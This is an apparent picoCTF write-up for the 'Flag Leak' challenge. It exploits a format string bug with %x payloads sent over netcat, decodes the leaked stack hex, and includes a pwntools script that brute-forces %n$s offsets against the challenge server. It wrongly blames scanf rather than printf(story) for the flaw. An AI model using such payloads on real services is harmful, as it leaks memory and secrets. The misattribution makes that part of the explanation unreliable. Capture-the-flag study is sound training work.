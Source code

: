 # Flag Leak
## Description
Story telling class 1/2
I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using: `nc saturn.picoctf.net 55829`

## Solution
When looking at the code a particular block of code caught my attention:

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

Here inside the `vuln()` function, the scanf function is used to read the story. The `scanf()` function is vulnerable to a format string attack. This means that we can use the `%` character to print the flag. So i tried that:

```bash
$ nc saturn.picoctf.net 55829
Tell me a story and then I'll tell you one >> %x
Here's a story -
ffa6d250
```

As we can see `ffa6d250` is printed. I tried adding a lot more `%x`'s to see what would happen:

```bash
$ nc saturn.picoctf.net 55829 <<< $(python -c 'print("%x" * 64)')
```

This gave me the following output:


![img.png](img.png)

```bash
fff54dc0fff54de08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f355f6b63643631657d313235fbad2000d988c4000f7fed990804c00080494100804c000fff54ea880494182fff54f54fff54f600fff54ec000f7de3ed5
```

Lots of rubbish. But it also looks like there could be something hidden inside the text. I tried cleaning it up a bit by removing the numbers until see a different pattern of characters, looking like hexadecimals:

```bash
# Rubbish
fff54dc0fff54de0804934678257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825257825

# Possible flag
6f6369707b4654436b34334c5f676e3167346c466666305f3474535f355f6b63643631657d313235

# Not sure what this is but its not hexidecimal anymore
fbad2000d988c4000f7fed990804c00080494100804c000fff54ea880494182fff54f54fff54f600fff54ec000f7de3ed5
```

I tried inserting this to cyberchef and got the following [result](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',4,true)From_Hex('Auto')&input=NmY2MzY5NzA3YjQ2NTQ0MzZiMzQzMzRjNWY2NzZlMzE2NzM0NmM0NjY2NjYzMDVmMzQ3NDUzNWYzNTVmNmI2MzY0MzYzMTY1N2QzMTMyMzUK).

Which is the flag!

## Alternative way (bruteforcing the stack)
I also tried bruteforcing the stack using the following script:

```python
from pwn import *

for i in range(1, 50):
    r = remote('saturn.picoctf.net', 53991)
    r.sendline('%' + str(i) + '$s')
    print('%' + str(i) + '$s')
    print(r.recv())
````

Which gave me the flag at the 24th iteration.
